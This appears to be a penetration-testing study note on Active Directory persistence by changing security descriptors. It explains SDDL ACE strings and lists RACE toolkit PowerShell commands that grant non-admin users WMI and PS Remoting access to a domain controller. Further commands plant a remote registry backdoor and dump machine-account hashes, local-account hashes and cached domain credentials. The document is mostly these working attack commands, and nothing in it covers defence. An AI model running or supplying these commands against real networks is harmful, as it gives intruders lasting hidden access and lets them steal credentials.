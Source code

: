```yaml
---
tags:
  - persistence
cssclasses:
  - persistence-using-ACLs
  - RACE-toolkit
  - WMI
  - Registry
---
```

- It is possible to modify Security Descriptors (security information like Owner, primary group, D[[ACL]], SACL) of multiple remote access methods (securable objects) to allow access to non-admin users
- A very effective backdoor mechanism
- Security Descriptor Definition Language (SDDL) defines the format which is used to describe a security descriptor. SDDL uses ACE strings for DACL and SACL:
	`ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid`
	
- ACE for built-in administrators for WMI namespaces
	`A;Cl;CCDCLCSWRPWPRCWD;;;SID`
- ACLs can be modified to allow non-admin users access to securable objects. Using the RACE toolkit:
	`C:\AD\Tools\RACE-master\RACE.ps1`

#### Using WMI

```powershell title:"Locally"
Set-RemoteWMI -SamAccountName username -Verbose
```

```powershell title:"On remote machine"
Set-RemoteWMI -SamAccountName username -ComputerName domain-controller -namespace 'root\cimv2'
```

```powershell title:"On remote machine with explicit credentials. Only root\cimv2 and nested namespaces"
Set-RemoteWMI -SamAccountName username -ComputerName domain-controller -Credential Administrator -namespace 'root\cimv2' -Verbose
```

```powershell title:"On remote machine remove permissions"
Set-RemoteWmi -SamAccountName username -ComputerName domain-controller-namespace 'root\cimv2' -Remove -Verbose
```

#### Using RACE toolkit

###### PS Remoting backdoor

```powershell title:"Locally"
Set-RemotePSRemoting -SamAccountName username -Verbose
```

```powershell title:"On remote machine"
Set-RemotePSRemoting -SamAccountName username -ComputerName domain-controller -Verbose
```

```powershell title:"On remote machine, remove permissions"
Set-RemotePSRemoting -SamAccountName username -ComputerName domain-controller -Remove
```

###### Remote Registry

```powershell title:"Place backdoor in registry remotely"
Add-RemoteRegBackdoor -Computername domain-controller -Trustee username -Verbose
```

```powershell title:"Retrieve machine account hash from initial foothold"
Get-RemoteMachineAccountHash -ComputerName domain-controller -Verbose
```

```powershell title:"Retrieve local account hash on the remote machine"
Get-RemoteLocalAccountHash -ComputerName domain-controller -Verbose
```

```powershell title:"Retrieve domain cached credentials on the remote machine"
Get-RemoteCachedCredential -ComputerName domain-controller -Verbose
```

